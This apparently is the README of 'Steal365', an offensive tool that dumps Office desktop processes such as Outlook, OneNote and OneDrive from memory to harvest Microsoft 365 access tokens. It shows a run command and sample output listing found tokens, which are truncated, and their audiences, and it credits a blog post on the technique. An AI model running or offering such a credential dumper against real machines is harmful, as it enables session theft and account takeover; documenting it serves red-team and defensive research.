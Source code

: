 # Steal365
Dumping tokens from Microsoft Office desktop application's memory

### Run
```
PS C:\User\dev> .\Steal365.exe

      --++[   Steal365   ]++--

[>] try dump: WINWORD
    - WINWORD not found!

[>] try dump: onenoteim
  \-- dump onenoteim ok
  \-- looking for tokens...
    + Valid token: 15/09/1995 02:25:02
    + aud: https://outlook.office365.com/
    + Token: eyJ0eX[...]uE4w

[>] try dump: ONENOTEM
    - ONENOTEM not found!

[>] try dump: POWERPNT
    - POWERPNT not found!

[>] try dump: OUTLOOK
  \-- dump OUTLOOK ok
    + Valid token: 15/09/1995 02:26:41
    + aud: https://outlook.office365.com/
    + Token: eyJ0eX[...]nORg

[>] try dump: EXCEL
    - EXCEL not found!

[>] try dump: OneDrive
  \-- dump OneDrive ok
  \-- Looking for tokens...
    + Valid token: 15/09/1995 02:25:17
    + aud: 00000003-0000-0000-c000-000000000000
    + Token: eyJ0eX[...]I32n

    + Valid token: 15/09/1995 02:22:48
    + aud: ab9b8c07-8f02-4f72-87fa-80105867a763
    + Token: eyJ0eX[...]VOQg

    + Valid token: 15/09/1995 02:27:55
    + aud: https://clients.config.office.net/
    + Token: eyJ0eX[...]OzMA

    + Valid token: 15/09/1995 02:49:22
    + aud: https://wns.windows.com
    + Token: eyJ0eX[...]6-YA
```

### Inspired by
[Stealing Access Tokens From Office Desktop Applications](https://mrd0x.com/stealing-tokens-from-office-applications/)<br>
